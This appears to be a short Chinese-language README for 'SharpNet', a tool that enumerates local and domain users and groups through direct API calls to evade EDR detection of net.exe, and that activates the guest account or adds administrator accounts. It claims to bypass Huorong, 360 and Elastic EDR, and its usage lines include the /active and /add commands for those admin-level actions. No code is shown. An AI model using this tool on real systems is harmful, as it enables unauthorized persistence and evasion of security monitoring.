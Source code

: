# SharpNet
测试Elastic EDR写的小工具。直接调用API实现net user / net group功能，绕过edr对net.exe/net1.exe的检测。同时利用修改windows目录的方式实现添加用户、激活guest用户，由于没有使用到API，逃避了对敏感API的检测，实测过火绒、360、Elastic EDR。

使用方法：

  sharpnet.exe user //枚举本地用户
  
  sharpnet.exe user /do //枚举域用户
  
  sharpnet.exe user username //查看本地用户信息
  
  sharpnet.exe user username /do 查看域用户信息

  group同上

  sharpnet.exe /active 激活guest并添加到管理组
  
  sharpnet.exe user pass /add 添加账户并加入到管理组
